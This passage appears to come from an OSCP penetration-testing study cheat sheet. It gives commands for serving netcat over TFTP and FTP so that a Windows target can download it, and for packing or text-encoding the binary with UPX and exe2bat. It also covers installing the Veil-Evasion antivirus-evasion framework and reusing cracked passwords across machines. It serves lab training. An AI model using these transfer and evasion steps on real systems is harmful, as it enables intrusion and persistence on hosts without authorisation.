     -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          
        /etc/init.d/pure-ftpd restart

-   Packing Files
    -------------------------------------------------------------------------------------------------------------

    -   Ultimate Packer for eXecutables  
        upx -9 nc.exe

    -   exe2bat - Converts EXE to a text file that can be copied and
        pasted  
        locate exe2bat  
        wine exe2bat.exe nc.exe nc.txt

    -   Veil - Evasion Framework -
        https://github.com/Veil-Framework/Veil-Evasion  
        apt-get -y install git  
        git clone https://github.com/Veil-Framework/Veil-Evasion.git  
        cd Veil-Evasion/  
        cd setup  
        setup.sh -c

Privilege Escalation
==================================================================================================================

*Password reuse is your friend.  The OSCP labs are true to life, in the way that the users will reuse passwords across different services and even different boxes. Maintain a list of cracked passwords and test them on new machines you encounter.*


-   Linux Privilege Escalation
    ------------------------------------------------------------------------------------------------------------------------

-   Defacto Linux Privilege Escalation Guide  - A much more through guide for linux enumeration:
    [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
